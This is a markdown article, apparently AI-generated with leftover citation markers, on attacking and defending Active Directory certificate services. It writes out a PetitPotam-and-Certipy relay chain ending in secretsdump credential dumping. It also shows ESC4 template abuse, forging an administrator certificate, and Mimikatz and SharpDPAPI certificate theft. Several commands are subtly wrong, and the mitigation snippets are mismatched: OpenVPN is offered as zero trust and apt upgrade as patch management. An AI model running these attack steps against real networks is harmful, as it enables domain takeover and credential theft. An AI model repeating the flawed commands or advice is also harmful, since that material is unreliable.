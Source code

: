 ## Understanding and Mitigating Certificate Exploitation Techniques

### Introduction

In the evolving landscape of cybersecurity, digital certificates, which serve as a cornerstone for secure communication, have become a prime target for attackers. Exploiting vulnerabilities in certificate services can lead to severe breaches, making it imperative for organizations to understand and mitigate these threats.

### Common Certificate Exploitation Techniques

1. **Certificate Misconfiguration Exploits**

Attackers frequently exploit misconfigurations in Active Directory Certificate Services (ADCS). Tools like PetitPotam and Certipy can coerce a domain controller into authenticating against an attacker-controlled server. This allows the attacker to relay the authentication request and acquire a certificate for the domain controller's machine account, granting extensive access within the network【11†source】.

**PetitPotam and Certipy Attack Steps**:
1. **Setup Certipy to Relay Connections**:
    ```python
    certipy relay -dc-ip <DC IP Address> -ca <CA Server Name>
    ```
2. **Coerce Authentication with PetitPotam**:
    ```bash
    python3 PetitPotam.py -u <Username> -p <Password> <Listener IP Address> <Target IP Address>
    ```
3. **Acquire Certificate**:
    ```python
    certipy auth -username <Username> -domain <Domain> -dc-ip <DC IP Address> -pfx <Certificate>
    ```
4. **Authenticate and Exploit**:
    ```bash
    impacket-secretsdump <Domain/Username@IP Address> -hashes <Hash>
    ```

2. **Zero-Day Vulnerability Exploits**

The use of zero-day vulnerabilities has surged, especially among ransomware groups like CL0P and LockBit. These groups exploit unknown vulnerabilities to infiltrate systems and exfiltrate data. The rapid exploitation of zero-day vulnerabilities necessitates proactive patch management and continuous monitoring to mitigate risks【12†source】【13†source】.

**Zero-Day Exploit Example**:
   ```bash
   exploit-db searchsploit -m <Zero-Day-Exploit-ID>
   msfconsole -r <Exploit-File>
   ```

3. **Legacy System Vulnerabilities**

Legacy systems often contain outdated or poorly maintained code that can be easily exploited. Organizations need to regularly update and patch these systems to prevent attackers from leveraging old vulnerabilities. Using AI for automated code review and maintenance can help address these issues efficiently【10†source】.

**Patch Legacy Systems**:
   ```bash
   sudo apt-get update && sudo apt-get upgrade
   ```

### Techniques and Tools for Certificate Exploitation

#### Certificate Template Modification
Modify certificate templates to escalate privileges.

**Example with PowerShell**:
   ```powershell
   Add-ADCertificateTemplate -Name "ESC4-Test"
   Set-ADCertificateTemplate -Name "ESC4-Test" -ValidityPeriod "Years" -ValidityPeriodUnits 5
   ```

#### Certificate Forging
Use Certipy to forge certificates.

**Certipy Commands**:
   ```bash
   certipy req -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local
   certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
   ```

#### Exporting Certificates Using Crypto APIs
Extract certificates using Crypto APIs.

**PowerShell Example**:
   ```powershell
   Export-PfxCertificate -cert "Cert:\\CurrentUser\\My\\<Thumbprint>" -FilePath "C:\\path\\to\\cert.pfx" -Password (ConvertTo-SecureString -String "P@ssw0rd" -Force -AsPlainText)
   ```

**Mimikatz Example**:
   ```bash
   crypto::capi /cng /export
   ```

#### User Certificate Theft via DPAPI
Steal user certificates protected by DPAPI.

**SharpDPAPI Example**:
   ```bash
   SharpDPAPI.exe certificates /mkfile:C:\\temp\\mkeys.txt
   ```

**Convert to .pfx**:
   ```bash
   openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
   ```

### Mitigation Strategies

1. **Regular Audits and Updates**

Conduct regular security audits and ensure all systems, especially legacy ones, are updated and patched. Implementing a robust patch management strategy can significantly reduce vulnerabilities【13†source】.

**Patch Management Tools**:
   ```bash
   sudo apt-get update && sudo apt-get upgrade
   ```

2. **Enhanced Monitoring and Incident Response**

Deploy advanced monitoring solutions to detect and respond to suspicious activities quickly. Establish an incident response team equipped to handle certificate-related breaches【12†source】.

**Monitoring Tools**:
   ```bash
   sudo apt-get install snort
   sudo snort -A console -q -c /etc/snort/snort.conf -i eth0
   ```

3. **Adopt Zero Trust Architecture**

Implement a zero trust security model, which assumes that threats can come from within and outside the network. This approach requires continuous verification of user identities and strict access controls【13†source】.

**Zero Trust Implementation Example**:
   ```bash
   sudo apt-get install openvpn
   sudo openvpn --config client.ovpn
   ```

4. **Training and Awareness**

Regularly train staff on the latest cybersecurity threats and best practices. Awareness programs can help in recognizing phishing attempts and other social engineering tactics used to gain access to certificate services【10†source】.

**Training Tools**:
   ```bash
   sudo apt-get install gophish
   sudo gophish
   ```

### Conclusion

The exploitation of digital certificates poses a significant threat to organizational security. By understanding the methods attackers use and adopting comprehensive mitigation strategies, organizations can protect their systems and data from such exploits. Regular updates, robust monitoring, zero trust architecture, and continuous staff training are key components of an effective defense against certificate exploitation.

By staying informed about the latest threats and maintaining a proactive security posture, organizations can safeguard their digital assets and maintain the integrity of their security infrastructure.
